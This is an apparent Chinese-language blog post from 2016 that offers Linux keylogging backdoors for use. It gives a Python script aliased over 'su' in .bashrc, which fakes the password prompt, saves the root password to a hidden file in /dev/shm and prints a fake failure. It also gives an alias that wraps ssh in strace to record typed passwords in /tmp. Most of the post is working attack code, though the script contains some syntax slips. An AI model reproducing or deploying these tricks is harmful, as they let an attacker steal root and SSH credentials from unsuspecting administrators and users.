 ```yaml
---
layout:     post
title:      "Keyboard Logger On Linux - Part 1"
subtitle:   "Serial"
date:       2016-12-23
author:     "Urahara"
header-img: "img/05f7a6edc6d63e4f97353f87fbb3d18d.jpg"
header-mask: 0.3
tags:
    - Keyboard Logger
    - Backdoor 



---
```


### alias su keylogger

在一个低权限用户目录下的.bashrc添加一句alias su='/usr/root.py'，低权限用户su root后成功记录密码，但使用这种方法后管理员无法正常su切换至root用户下，所以比较容易被管理员发现。密码记录路径请看脚本。 

```
#!/usr/bin/python
# -*- coding: cp936 -*-

import os, sys, getpass, time

current_time = time.strftime("%Y-%m-%d %H:%M")
logfile="/dev/shm/.su.log"              //密码获取后记录在这里
#CentOS                 
#fail_str = "su: incorrect password"
#Ubuntu              
#fail_str = "su: Authentication failure"
#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
fail_str = "su: incorrect password"
try:
	passwd = getpass.getpass(prompt='Password: ');
	file=open(logfile,'a')
	file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	file.write('n')
	file.close()
except:
	pass
time.sleep(1)
print fail_str                               //打印切换root失败提示
```

### alias ssh keylogger

同样编辑当前用户下的.bashrc文件,添加以下内容，然后使用source .bashrc 命令使配置生效，当ssh的时候,就会在tmp下面生成记录

```
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

